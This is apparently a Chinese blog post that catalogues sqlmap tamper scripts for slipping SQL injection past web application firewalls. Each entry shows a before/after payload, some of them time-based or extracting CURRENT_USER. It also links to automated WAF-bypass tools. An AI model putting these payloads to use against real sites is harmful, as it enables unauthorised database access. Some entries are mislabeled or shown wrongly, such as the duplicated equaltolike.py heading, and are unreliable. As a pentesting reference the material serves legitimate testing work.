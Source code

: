 title: sqlmap tamer脚本
author: Believe firmly
tags:
  - web技术
  - 工具
categories: []
date: 2018-11-08 21:27:00
---
##### 现在实用的脚本都是自己编写的尝试去网上搜wafbypass，绕waf学习大佬经验充实自己的规则库，慢慢积累让自己更强，以下对sqlmap常用脚本进行介绍。

##### 插件推荐（xwaf）：是一个python写的waf自动绕过工具,上一个版本是bypass_waf,xwaf相比bypass_waf更智能,可无人干预,自动暴破waf
https://github.com/3xp10it/xwaf

https://github.com/Ekultek/WhatWaf

apostrophemask.py
适用数据库：ALL 
作用：将引号替换为utf-8，用于过滤单引号 
使用脚本前：tamper("1 AND '1'='1") 
使用脚本后：1 AND %EF%BC%871%EF%BC%87=%EF%BC%871
 <!-- more -->
base64encode.py
适用数据库：ALL 
作用：替换为base64编码 
使用脚本前：tamper("1' AND SLEEP(5)#") 
使用脚本后：MScgQU5EIFNMRUVQKDUpIw==

multiplespaces.py
适用数据库：ALL 
作用：围绕sql关键字添加多个空格 
使用脚本前：tamper('1 UNION SELECT foobar') 
使用脚本后：1 UNION SELECT foobar

space2plus.py
适用数据库：ALL 
作用：用加号替换空格 
使用脚本前：tamper('SELECT id FROM users') 
使用脚本后：SELECT+id+FROM+users

nonrecursivereplacement.py
适用数据库：ALL 
作用：作为双重查询语句，用双重语句替代预定义的sql关键字（适用于非常弱的自定义过滤器，例如将select替换为空） 
使用脚本前：tamper('1 UNION SELECT 2--') 
使用脚本后：1 UNIOUNIONN SELESELECTCT 2--

space2randomblank.py
适用数据库：ALL 
作用：将空格替换为其他有效字符 
使用脚本前：tamper('SELECT id FROM users') 
使用脚本后：SELECT%0Did%0DFROM%0Ausers

unionalltounion.py
适用数据库：ALL 
作用：将union allselect 替换为unionselect 
使用脚本前：tamper('-1 UNION ALL SELECT') 
使用脚本后：-1 UNION SELECT

securesphere.py
适用数据库：ALL 
作用：追加特定的字符串 
使用脚本前：tamper('1 AND 1=1') 
使用脚本后：1 AND 1=1 and '0having'='0having'

space2dash.py
适用数据库：ALL 
作用：将空格替换为--，并添加一个随机字符串和换行符 
使用脚本前：tamper('1 AND 9227=9227') 
使用脚本后：1--nVNaVoPYeva%0AAND--ngNvzqu%0A9227=9227

space2mssqlblank.py
适用数据库：Microsoft SQL Server 
测试通过数据库：Microsoft SQL Server 2000、Microsoft SQL Server 2005 
作用：将空格随机替换为其他空格符号('%01', '%02', '%03', '%04', '%05', '%06', '%07', '%08', '%09', '%0B', '%0C', '%0D', '%0E', '%0F', '%0A') 
使用脚本前：tamper('SELECT id FROM users') 
使用脚本后：SELECT%0Eid%0DFROM%07users

between.py
测试通过数据库：Microsoft SQL Server 2005、MySQL 4, 5.0 and 5.5、Oracle 10g、PostgreSQL 8.3, 8.4, 9.0 
作用：用NOT BETWEEN 0 AND #替换> 
使用脚本前：tamper('1 AND A > B--') 
使用脚本后：1 AND A NOT BETWEEN 0 AND B--

percentage.py
适用数据库：ASP 
测试通过数据库：Microsoft SQL Server 2000, 2005、MySQL 5.1.56, 5.5.11、PostgreSQL 9.0 
作用：在每个字符前添加一个% 
使用脚本前：tamper('SELECT FIELD FROM TABLE') 
使用脚本后：%S%E%L%E%C%T %F%I%E%L%D %F%R%O%M %T%A%B%L%E

sp_password.py
适用数据库：MSSQL 
作用：从T-SQL日志的自动迷糊处理的有效载荷中追加sp_password 
使用脚本前：tamper('1 AND 9227=9227-- ') 
使用脚本后：1 AND 9227=9227-- sp_password

charencode.py
测试通过数据库：Microsoft SQL Server 2005、MySQL 4, 5.0 and 5.5、Oracle 10g、PostgreSQL 8.3, 8.4, 9.0 
作用：对给定的payload全部字符使用url编码（不处理已经编码的字符） 
使用脚本前：tamper('SELECT FIELD FROM%20TABLE') 
使用脚本后：%53%45%4C%45%43%54%20%46%49%45%4C%44%20%46%52%4F%4D%20%54%41%42%4C%45

randomcase.py
测试通过数据库：Microsoft SQL Server 2005、MySQL 4, 5.0 and 5.5、Oracle 10g、PostgreSQL 8.3, 8.4, 9.0 
作用：随机大小写 
使用脚本前：tamper('INSERT') 
使用脚本后：INseRt

charunicodeencode.py
适用数据库：ASP、ASP.NET 
测试通过数据库：Microsoft SQL Server 2000/2005、MySQL 5.1.56、PostgreSQL 9.0.3 
作用：适用字符串的unicode编码 
使用脚本前：tamper('SELECT FIELD%20FROM TABLE') 
使用脚本后：%u0053%u0045%u004C%u0045%u0043%u0054%u0020%u0046%u0049%u0045%u004C%u0044%u0020%u0046%u0052%u004F%u004D%u0020%u0054%u0041%u0042%u004C%u0045

space2comment.py
测试通过数据库：Microsoft SQL Server 2005、MySQL 4, 5.0 and 5.5、Oracle 10g、PostgreSQL 8.3, 8.4, 9.0 
作用：将空格替换为/**/ 
使用脚本前：tamper('SELECT id FROM users') 
使用脚本后：SELECT/**/id/**/FROM/**/users

equaltolike.py
测试通过数据库：Microsoft SQL Server 2005、MySQL 4, 5.0 and 5.5 
作用：将=替换为LIKE 
使用脚本前：tamper('SELECT * FROM users WHERE id=1') 
使用脚本后：SELECT * FROM users WHERE id LIKE 1

equaltolike.py
测试通过数据库：MySQL 4, 5.0 and 5.5、Oracle 10g、PostgreSQL 8.3, 8.4, 9.0 
作用：将>替换为GREATEST，绕过对>的过滤 
使用脚本前：tamper('1 AND A > B') 
使用脚本后：1 AND GREATEST(A,B+1)=A

ifnull2ifisnull.py
适用数据库：MySQL、SQLite (possibly)、SAP MaxDB (possibly) 
测试通过数据库：MySQL 5.0 and 5.5 
作用：将类似于IFNULL(A, B)替换为IF(ISNULL(A), B, A)，绕过对IFNULL的过滤 
使用脚本前：tamper('IFNULL(1, 2)') 
使用脚本后：IF(ISNULL(1),2,1)

modsecurityversioned.py
适用数据库：MySQL 
测试通过数据库：MySQL 5.0 
作用：过滤空格，使用mysql内联注释的方式进行注入 
使用脚本前：tamper('1 AND 2>1--') 
使用脚本后：1 /*!30874AND 2>1*/--

space2mysqlblank.py
适用数据库：MySQL 
测试通过数据库：MySQL 5.1 
作用：将空格替换为其他空格符号('%09', '%0A', '%0C', '%0D', '%0B') 
使用脚本前：tamper('SELECT id FROM users') 
使用脚本后：SELECT%0Bid%0DFROM%0Cusers

modsecurityzeroversioned.py
适用数据库：MySQL 
测试通过数据库：MySQL 5.0 
作用：使用内联注释方式（/*!00000*/）进行注入 
使用脚本前：tamper('1 AND 2>1--') 
使用脚本后：1 /*!00000AND 2>1*/--

space2mysqldash.py
适用数据库：MySQL、MSSQL 
作用：将空格替换为 -- ，并追随一个换行符 
使用脚本前：tamper('1 AND 9227=9227') 
使用脚本后：1--%0AAND--%0A9227=9227

bluecoat.py
适用数据库：Blue Coat SGOS 
测试通过数据库：MySQL 5.1,、SGOS 
作用：在sql语句之后用有效的随机空白字符替换空格符，随后用LIKE替换= 
使用脚本前：tamper('SELECT id FROM users where id = 1') 
使用脚本后：SELECT%09id FROM users where id LIKE 1

versionedkeywords.py
适用数据库：MySQL 
测试通过数据库：MySQL 4.0.18, 5.1.56, 5.5.11 
作用：注释绕过 
使用脚本前：tamper('1 UNION ALL SELECT NULL, NULL, CONCAT(CHAR(58,104,116,116,58),IFNULL(CAST(CURRENT_USER() AS CHAR),CHAR(32)),CHAR(58,100,114,117,58))#') 
使用脚本后：1/*!UNION*//*!ALL*//*!SELECT*//*!NULL*/,/*!NULL*/, CONCAT(CHAR(58,104,116,116,58),IFNULL(CAST(CURRENT_USER()/*!AS*//*!CHAR*/),CHAR(32)),CHAR(58,100,114,117,58))#

halfversionedmorekeywords.py
适用数据库：MySQL < 5.1 
测试通过数据库：MySQL 4.0.18/5.0.22 
作用：在每个关键字前添加mysql版本注释 
使用脚本前：tamper("value' UNION ALL SELECT CONCAT(CHAR(58,107,112,113,58),IFNULL(CAST(CURRENT_USER() AS CHAR),CHAR(32)),CHAR(58,97,110,121,58)), NULL, NULL# AND 'QDWa'='QDWa") 
使用脚本后：value'/*!0UNION/*!0ALL/*!0SELECT/*!0CONCAT(/*!0CHAR(58,107,112,113,58),/*!0IFNULL(CAST(/*!0CURRENT_USER()/*!0AS/*!0CHAR),/*!0CHAR(32)),/*!0CHAR(58,97,110,121,58)),/*!0NULL,/*!0NULL#/*!0AND 'QDWa'='QDWa

space2morehash.py
适用数据库：MySQL >= 5.1.13 
测试通过数据库：MySQL 5.1.41 
作用：将空格替换为#，并添加一个随机字符串和换行符 
使用脚本前：tamper('1 AND 9227=9227') 
使用脚本后：1%23ngNvzqu%0AAND%23nVNaVoPYeva%0A%23lujYFWfv%0A9227=9227

apostrophenullencode.py
适用数据库：ALL 
作用：用非法双字节Unicode字符替换单引号 
使用脚本前：tamper("1 AND '1'='1") 
使用脚本后：1 AND %00%271%00%27=%00%271

appendnullbyte.py
适用数据库：ALL 
作用：在有效载荷的结束位置加载null字节字符编码 
使用脚本前：tamper('1 AND 1=1') 
使用脚本后：1 AND 1=1%00

chardoubleencode.py
适用数据库：ALL 
作用：对给定的payload全部字符使用双重url编码（不处理已经编码的字符） 
使用脚本前：tamper('SELECT FIELD FROM%20TABLE') 
使用脚本后：%2553%2545%254C%2545%2543%2554%2520%2546%2549%2545%254C%2544%2520%2546%2552%254F%254D%2520%2554%2541%2542%254C%2545

unmagicquotes.py
适用数据库：ALL 
作用：用一个多字节组合%bf%27和末尾通用注释一起替换空格 
使用脚本前：tamper("1' AND 1=1") 
使用脚本后：1%bf%27 AND 1=1--

randomcomments.py
适用数据库：ALL 
作用：用注释符分割sql关键字 
使用脚本前：tamper('INSERT') 
使用脚本后：I/**/N/**/SERT